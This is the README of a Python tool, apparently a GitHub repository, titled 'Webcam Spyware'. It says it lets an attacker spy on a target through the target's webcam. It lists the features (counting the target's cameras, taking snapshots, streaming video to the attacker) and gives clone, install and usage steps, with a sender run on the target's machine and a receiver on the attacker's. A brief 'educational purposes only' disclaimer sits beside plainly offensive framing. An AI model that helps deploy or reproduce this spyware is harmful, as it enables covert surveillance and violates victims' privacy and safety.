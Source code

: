 # Webcam Spyware

![image](https://drive.google.com/uc?export=download&id=1ZFOgirSKoTX229XS-GxuSzuaH_PIyD2g)

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker spy on a target through the webcam

## Features

- You can check how many webcam are active on the target's system
- You can take snapshot with the target's webcam
- It streams the target's webcam view to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/webcam-spyware.git && cd webcam-spyware
```

```shell
pip install opencv-python
```

## Usage

To check how many webcams are active on the system

```python
cam = Webcam().camScanner()
```

To take a snapshot using the webcam

```python
camPort = 0
cam = Webcam().snapShot(camPort)
```

To stream the webcam view from the target to the attacker
On target's system

```python
cam = Webcam().sender()
```

On attacker's system

```python
host = "target-ip-address"
cam = Webcam().receiver(host)
```

## Run

```shell
python webcam.py
```

To use the streaming function, first run the software on target's system before running on the attacker's system
